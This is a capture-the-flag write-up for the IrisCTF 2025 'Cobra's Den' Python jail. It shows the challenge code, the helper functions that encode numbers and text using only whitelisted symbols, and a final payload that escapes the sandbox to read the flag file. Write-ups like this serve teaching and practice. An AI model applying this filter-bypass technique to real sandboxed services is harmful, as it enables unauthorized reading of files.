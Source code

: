 +++
title = 'Iris Ctf 2025 Misc Cobras Den'
date = 2025-01-06T00:08:48-05:00
draft = false
+++

Cobra's Den was a python jail escape challenge for IrisCTF 2025.

Lets take a look at the code
```python
# flag stored at 'flag' in current dir
import builtins

all_builtins = dir(builtins)
filtered_builtins = {name: getattr(builtins, name) for name in all_builtins if len(name) <= 4}
filtered_builtins.update({'print': print})

whitelist = "<ph[(cobras.den)]+~"
security_check = lambda s: any(c not in whitelist for c in s) or len(s) > 1115 or s.count('.') > 1

print('Good luck!')
while True:
    cmd = input("Input: ")
    if security_check(cmd):
        print("No dice!")
    else:
        try:
            eval(f"print({cmd})", {"__builtins__": filtered_builtins})
        except SyntaxError as e:
            print(f"Syntax error: {e}")
        except Exception as e:
            print(f"An error occurred: {e}")

```

The whitelist is quite restrictive, we can only use the characters from `<ph[(cobras.den)]+~` and we have to stay under 1115 characters. We are told the flag is located in flag at the current directory and give the characters we have we can call `open()` and `read()`, but encoding flag will be a challenge. Let's see how we can use the characters we are given to encode `flag`

## Getting characters without characters

First, we can do comparisons on empty tuples which gets us `True` and `False`. In python, `True` is equal to 1 and `False` is equal to 0.  Unfortunetly we cannot use the equals sign to do:
```python
>>> ()==()
True
```
But we can use `>` which lets us do:
```python
>>> ()>()
False
```
We can use `~` the bitwise NOT operator to get -1
```python
>>> ~(()>())
-1
```
And since we also can use + we can add -1 to itself to get -2 and bitwise NOT to get 1
```python
>>>~(~(()>())+~(()>()))
1
```
Unfortunetly if we try to build out the digits 1-9 this way, we run into the character limit as the strings get very lengthy. Looking at the built in functions we could use, I saw abs(), and using that we can get 1 by doing:
```python
>>>abs(~(()<()))
1
```

Now we can build out the numbers 1 - 9:

```python

def encode_digit(number: int):
    if number == 0:
        return """()<()"""
    if number == 1:
        return """abs(~(()<()))""" 
    if number == 2:
        return """abs(~(()<())+~(()<()))"""
    if number == 3:
        return """abs(~(()<())+~(()<())+~(()<()))"""
    if number == 4:
        return """abs(~(()<())<<abs(~(()<())+~(()<())))"""
    if number == 5:
        return """abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<()))"""
    if number == 6:
        return """abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))"""
    if number == 7:
        return """abs(~(()<())<<abs(~(()<())+~(()<())+~(()<())))+~(()<())"""
    if number == 8:
        return """abs(~(()<())<<abs(~(()<())+~(()<())+~(()<())))"""
    if number == 9:
        return """abs((~(()<())<<abs(~(()<())+~(()<())+~(()<())))+~(()<()))"""
```

From there we can encode any number:

```python
def encode_number(number: int):
    if number < 10:
        return encode_digit(number)
    shifts = []
    current = number
    shift_val = 0
    while current > 0:
        if current & 1:  
            shifts.append(shift_val)
        current >>= 1  
        shift_val += 1
    txt = ""
    for shift in shifts:
        if txt:
            txt += "+"
        if shift == 0:
            txt += encode_number(1)
        else:
            txt += "(" + encode_number(1) + "<<" + encode_number(shift) + ")"
    return txt
```

And then any text:
```python

def encode_text(text: str):
    result = ""
    for ch in map(ord, text):
        result += "chr(" + encode_number(ch) + ")+"
    result[::-1]
    print(len(result))
    return result
```

Gettin us our final payload just over 850 chars, well under the limit

```python
open(chr((abs(~(()<()))<<abs(~(()<())))+(abs(~(()<()))<<abs(~(()<())+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))))+chr((abs(~(()<()))<<abs(~(()<())+~(()<())))+(abs(~(()<()))<<abs(~(()<())+~(()<())+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))))+chr(abs(~(()<()))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))))+chr(abs(~(()<()))+(abs(~(()<()))<<abs(~(()<())))+(abs(~(()<()))<<abs(~(()<())+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())))+(abs(~(()<()))<<abs((~(()<())<<abs(~(()<())+~(()<())))+~(()<())+~(()<()))))).read()